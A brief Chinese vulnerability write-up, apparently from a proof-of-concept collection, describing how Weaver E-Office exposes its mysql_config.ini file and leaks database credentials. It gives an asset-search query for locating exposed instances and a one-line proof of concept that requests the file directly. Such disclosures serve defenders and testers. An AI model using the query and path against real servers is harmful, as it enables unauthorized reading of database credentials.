

# 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

```
泛微 E-Office
```

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

产品页面


验证POC

```php
/mysql_config.ini
```

